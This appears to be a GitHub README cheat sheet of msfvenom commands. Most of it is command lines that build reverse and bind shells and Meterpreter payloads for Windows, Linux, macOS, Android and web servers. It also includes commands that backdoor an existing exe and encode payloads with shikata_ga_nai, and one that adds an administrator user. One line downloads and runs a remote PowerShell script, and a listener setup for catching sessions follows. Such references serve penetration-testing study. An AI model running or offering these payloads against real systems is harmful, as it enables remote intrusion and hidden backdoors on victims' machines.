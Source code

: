 <h1 align="center"> Msfvenom-Cheat-Sheet</h1>
<p align="center">
  A list of msfvenom commands
</p>

## Binaries
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple TCP Payload for Windows |
|msfvenom -p windows/meterpreter/reverse_http LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Creates a simple HTTP Payload for Windows |
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f elf > example.elf | Creates a simple TCP Shell for Linux |
|msfvenom -p osx/x86/shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f macho > example.macho | Creates a simple TCP Shell for Mac |
|msfvenom -p android/meterpreter/reverse/tcp LHOST=(Your IP/DNS) LPORT=(Your Port) R > example.apk | Creats a simple TCP Payload for Android |

## Web Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -p php/meterpreter_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.php | Creats a Simple TCP Shell for PHP |
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f asp > example.asp | Creats a Simple TCP Shell for ASP |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f raw > example.jsp | Creats a Simple TCP Shell for Javascript |
|msfvenom -p java/jsp_shell_reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f war > example.war | Creats a Simple TCP Shell for WAR |

## Windows Payloads
| Command       | Info           |
| ------------- |:-------------:|
|msfvenom -l encoders | Lists all avalaible encoders|
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -f exe > example.exe | Binds an exe with a Payload (Backdoors an exe) | 
|msfvenom -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe > example.exe | Creates a simple TCP payload with shikata_ga_nai encoder |
|msfvenom -x base.exe -k -p windows/meterpreter/reverse_tcp LHOST=(Your IP/DNS) LPORT=(Your Port) -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > example.exe | Binds an exe with a Payload and encodes it |


# MSFVenom Cheatsheet Misslanious commands

| MSFVenom Payload Generation One-Liner | Description |
|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|
|    msfvenom -l   payloads                                                                                                                                                                 |    List available payloads                                     |
|    msfvenom -p PAYLOAD --list-options                                                                                                                                                                 |    List payload options                                     |
|    msfvenom -p   PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT   LHOST=IP                                                                                                        |    Payload Encoding                                            |
|    msfvenom -p   linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                           |    Linux Meterpreter  reverse shell x86 multi stage            |
|    msfvenom -p   linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf  >  shell.elf                                                                                              |    Linux Meterpreter  bind shell x86 multi stage               |
|    msfvenom -p linux/x64/shell_bind_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                      |    Linux bind shell x64 single stage                           |
|    msfvenom -p linux/x64/shell_reverse_tcp   RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                   |    Linux reverse shell x64 single stage                        |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                             |    Windows Meterpreter reverse shell                           |
|    msfvenom -p   windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe                                                                                             |    Windows Meterpreter http reverse shell                           |
|    msfvenom -p   windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe >   shell.exe                                                                                               |    Windows Meterpreter bind shell                              |
|    msfvenom -p   windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe >   shell.exe                                                                                                   |    Windows CMD Multi Stage                                     |
|    msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT   -f exe >  shell.exe                                                                                                     |    Windows CMD Single Stage                                    |
|    msfvenom -p   windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                           |    Windows add user                                            |
|    msfvenom -p   osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho >   shell.macho                                                                                               |    Mac Reverse Shell                                           |
|    msfvenom -p   osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho  >  shell.macho                                                                                                  |    Mac Bind shell                                              |
|    msfvenom -p   cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw >   shell.py                                                                                                      |    Python Shell                                                |
|    msfvenom -p   cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw >   shell.sh                                                                                                        |    BASH Shell                                                  |
|    msfvenom -p   cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw >   shell.pl                                                                                                        |    PERL Shell                                                  |
|    msfvenom -p   windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp >   shell.asp                                                                                             |    ASP Meterpreter shell                                       |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.jsp                                                                                                  |    JSP Shell                                                   |
|    msfvenom -p   java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war >   shell.war                                                                                                  |    WAR Shell                                                   |
|    msfvenom -p   php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw  >  shell.php   cat shell.php | pbcopy && echo '?php ' | tr -d '\n'    shell.php && pbpaste  shell.php    |    Php Meterpreter Shell                                       |
|    msfvenom -p   php/reverse_php LHOST=IP LPORT=PORT -f raw  >  phpreverseshell.php                                                                                                   |    Php Reverse Shell                                           |
|    msfvenom -a x86   --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object   Net.webClient).downloadString('http://IP/nishang.ps1')\""   -f python                        |    Windows Exec Nishang Powershell in   python   |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                            |    Bad characters shikata_ga_nai                               |
|    msfvenom -p   windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT   -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                               |    Bad characters fnstenv_mov                                  |

# Multihandler Listener
To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,  
```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```
The -j option is to keep all the connected session in the background.  


# References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675  
https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/  
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/  
